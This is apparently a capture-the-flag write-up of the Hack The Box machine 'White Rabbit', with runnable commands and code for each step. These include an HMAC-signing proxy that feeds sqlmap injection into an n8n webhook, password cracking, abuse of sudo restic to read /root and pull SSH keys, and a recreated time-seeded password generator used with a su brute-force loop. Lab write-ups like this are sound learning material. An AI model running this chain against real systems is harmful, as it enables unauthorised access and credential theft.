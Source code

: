 # HTB: White Rabbit – Full Writeup (User → Root)

### Category: Linux  
### Methodology: Enumeration → SQLi → File restore → SSH pivot → Reversing → Password Brute → Root  

---

## Step 1: Initial Recon

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.63
```

Add hostname:

```sh
echo "10.10.11.63 whiterabbit.htb" | sudo tee -a /etc/hosts
```

## Step 2: Subdomain/VHost Discovery

* Use ffuf:

```sh
ffuf -u http://whiterabbit.htb/ -H "Host: FUZZ.whiterabbit.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 0
```

Discovered:

    status.whiterabbit.htb

Visit http://status.whiterabbit.htb/status/temp to find more:

    a668910b5514e.whiterabbit.htb (WikiJS)

    ddb09a8558c9.whiterabbit.htb (Gophish)

    28efa8f7df.whiterabbit.htb (Webhook/n8n)

## Step 3: Gophish → n8n SQL Injection

From WikiJS, download:

curl http://a668910b5514e.whiterabbit.htb/gophish/gophish_to_phishing_score_database.json

Found:

    Webhook URL: http://28efa8f7df.whiterabbit.htb/webhook/<uuid>

    Secret key: 3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS

Create proxy:

# proxy.py

```py
from flask import Flask, request
import requests, json, hmac, hashlib

app = Flask(__name__)
SECRET = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
WEBHOOK_URL = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"

def sign(payload):
    payload_str = json.dumps(payload, separators=(',', ':'))
    return hmac.new(SECRET.encode(), payload_str.encode(), hashlib.sha256).hexdigest()

@app.route('/')
def proxy():
    email = request.args.get('q')
    payload = { "campaign_id": 1, "email": email, "message": "Clicked Link" }
    headers = { "Content-Type": "application/json", "x-gophish-signature": f"hmac={sign(payload)}" }
    r = requests.post(WEBHOOK_URL, headers=headers, json=payload)
    return r.text

app.run(port=5000)
```

Start Flask app:

```sh

python3 proxy.py

Use SQLMap:

sqlmap -u 'http://127.0.0.1:5000/?q=test@whiterabbit.htb' -p q --risk 3 --level 5 --batch

Discovered DB: temp, Table: command_log
```

## Step 4: Dump command_log

```sh
sqlmap -D temp -T command_log -u 'http://127.0.0.1:5000/?q=test@whiterabbit.htb' --dump

Found:

restic init --repo rest:http://75951e6ff.whiterabbit.htb
echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd

```

## Step 5: Restore with Restic

```sh
echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd
restic restore latest --target ./restored_data --repo rest:http://75951e6ff.whiterabbit.htb --password-file .restic_passwd

Extracted: bob.7z
```

## Step 6: Crack 7z Archive

```sh
7z2john bob.7z > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Password: 1q2w3e4r5t6y

Extract key:

7z x bob.7z -p1q2w3e4r5t6y
```

## Step 7: SSH as Bob

```sh
ssh -i bob bob@whiterabbit.htb -p 2222

Check sudo:

sudo -l

Permitted: /usr/bin/restic
```

## Step 8: Escalate to Morpheus

```sh
echo toor123 > /tmp/.restic_passwd
sudo restic init --repo /tmp/morpheus --password-file /tmp/.restic_passwd
sudo restic -r /tmp/morpheus --password-file /tmp/.restic_passwd backup /root
sudo restic -r /tmp/morpheus --password-file /tmp/.restic_passwd dump latest /root/morpheus > morpheus_id_rsa
chmod 600 morpheus_id_rsa
ssh -i morpheus_id_rsa morpheus@whiterabbit.htb
```
## Step 9: Analyze Password Generator

```sh
From command_log:

cd /home/neo && /opt/neo-password-generator/neo-password-generator | passwd

Recreate C generator:
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
    char cs[] = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    char pwd[21];
    struct tm tm = {
        .tm_year = 2024-1900,
        .tm_mon = 8-1,
        .tm_mday = 30,
        .tm_hour = 14,
        .tm_min = 40,
        .tm_sec = 42
    };
    time_t t = timegm(&tm);
    for (int ms = 0; ms < 1000; ms++) {
        srand(t * 1000 + ms);
        for (int i = 0; i < 20; i++) pwd[i] = cs[rand() % 62];
        pwd[20] = '\0';
        printf("%s\n", pwd);
    }
    return 0;
}
```

Build & run:

```sh
gcc -o gen neo_gen.c
./gen > passwords.txt
```
## Step 10: Brute-Force Neo Password

Create script:

```sh
#!/bin/bash
while read pass; do
  echo "$pass" | su neo -c 'whoami' 2>/dev/null | grep neo && echo "[+] Password: $pass" && break
done < /tmp/passwords.txt
```

Password found: WBSxhWgfnMiclrV4dqfj
## Step 11: PrivEsc to Root

```sh
su neo
# Password: WBSxhWgfnMiclrV4dqfj

sudo -l
sudo su -
whoami
cat /root/root.txt
```

### Final Summary
Step	Description	Status
Recon	Port scan, subdomain enum	✅
SQLi	n8n webhook injection	✅
Restore	Restic backup and 7z crack	✅
Pivot	SSH as Bob and Morpheus	✅
Reversing	Analyze and recreate password gen	✅
Brute	Brute-force neo login	✅
Root	sudo escalation	✅
### Takeaways

    n8n workflows can expose dangerous injection paths

    Restic + exposed logs = root

    Time-based password generation is fragile

    Simple bash scripts can replace tools like sucrack